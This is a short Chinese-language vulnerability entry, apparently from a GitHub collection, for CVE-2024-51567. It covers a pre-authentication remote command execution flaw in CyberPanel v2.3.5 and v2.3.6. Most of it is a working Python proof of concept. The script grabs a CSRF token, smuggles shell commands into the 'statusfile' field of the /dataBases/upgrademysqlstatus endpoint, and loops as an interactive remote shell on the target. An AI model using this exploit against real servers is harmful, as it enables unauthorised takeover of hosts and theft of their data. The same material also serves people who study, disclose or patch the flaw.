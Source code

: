 # CVE-2024-51567

>   CyberPanel是一个开源的Web控制面板，它提供了一个用户友好的界面，用于管理网站、电子邮件、数据库、FTP账户等。

## 来源

[https://dreyand.rs/code/review/2024/10/27/what-are-my-options-cyberpanel-v236-pre-auth-rce](https://dreyand.rs/code/review/2024/10/27/what-are-my-options-cyberpanel-v236-pre-auth-rce)

## 漏洞类型

远程命令执行

## 简介

CyberPanel的/dataBases/upgrademysqlstatus接口存在远程命令执行漏洞，由于该接口未做身份验证和参数过滤，未授权的攻击者可以通过此接口执行任意命令获取服务器权限，从而造成数据泄露、服务器被接管等严重的后果。

## 影响范围

-   CyberPanel v2.3.5
-   CyberPanel v2.3.6

## POC

```python
import httpx 
import sys 

def get_CSRF_token(client):
    resp = client.get("/")
    
    return resp.cookies['csrftoken']
    
def pwn(client, CSRF_token, cmd):
    headers = {
        "X-CSRFToken": CSRF_token,
        "Content-Type":"application/json",
        "Referer": str(client.base_url)
    }
    
    payload = '{"statusfile":"/dev/null; %s; #","csrftoken":"%s"}' % (cmd, CSRF_token)
    
    return client.put("/dataBases/upgrademysqlstatus", headers=headers, data=payload).json()["requestStatus"]
    
def exploit(client, cmd):
    CSRF_token = get_CSRF_token(client)
    stdout = pwn(client, CSRF_token, cmd)
    print(stdout)
    
if __name__ == "__main__":
    target = sys.argv[1]
    
    client = httpx.Client(base_url=target, verify=False)
    while True:
        cmd = input("$> ")

        exploit(client, cmd)
```



